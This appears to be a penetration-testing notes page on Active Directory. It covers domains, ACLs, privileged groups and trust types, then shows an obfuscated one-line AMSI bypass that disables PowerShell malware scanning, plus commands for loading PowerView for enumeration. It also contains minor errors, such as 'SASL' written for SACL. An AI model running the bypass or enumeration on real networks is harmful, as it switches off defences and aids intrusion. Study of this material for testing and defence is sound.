 # Introduction

### Elements

* Schema: definition of an object and its properties
* Global catalog (DC): provides information about all objects in the directory
* Replication Service: synchronizes information about objects between all Domain Controllers
* Forest: a security boundary that includes several domains
* Domain: identified as a SID, contains several Organization Units
* Organization Unit (OU): the smallest container within a domain. Can be used to store users, groups or computers.

### Access control

Performed through a combination of token containing identity and privileges of user and security descriptors of the targeted object which include:

* SID: security identity of the owner of object
* DACL: discretionary ACL - access permissions of the client on the object
* SASL: system ACL - logging and audit policies by user
* ACE: access control entity - the single access rule that composes the list of rules used by DACL and SACL to manage accesses

### User groups

| ID  | Name               | Description                                                             |
| --- | ------------------ | ----------------------------------------------------------------------- |
| 512 | Domain Admins      | Grants administrative privilege over the whole domain                   |
| 549 | Server Operators   | Grants administrative privilege on the DC                               |
| 551 | Backup Operators   | Allows to access any file regardless of permission and performs backups |
| 548 | Account Operators  | Allows to create or edit user accounts                                  |
| 513 | Domain Users       | Includes all users                                                      |
| 515 | Domain Computers   | Includes all machine accounts                                           |
| 516 | Domain Controllers | Includes all DCs                                                        |

### Trust

Link between two domains that allows objects to share information. Can occur between father/child or horizontally across the forest boundary.&#x20;

* One Way trust: users in the trusted domain can access resources on the trusting domain but the reverse is not true
* Bi-directional trust: users in mutually trusting forests can share and access to both domains
* External: bi-directional and non transitive trust between domains on different forests
* Default:  two-way transitive trust between father-child elements
* Forest: trust established between root elements of forest. Can be one or two ways, transitive or non transitive
* Shortcut: can be one or two way, used to ease communications within large structures

Bidirectional Default trusts can always be enumerated



### AMSI Bypass

Obfuscated strings to disable AMSI PowerShell protection

```
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

### Including External Scripts

By storing PS1 scripts under C:\AD\Tools they will not be scanned&#x20;

#### PowerView

```
. .\PowerView.ps1
```

#### LDAP Module

```
Import-Module .\Microsoft\ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psdl
```
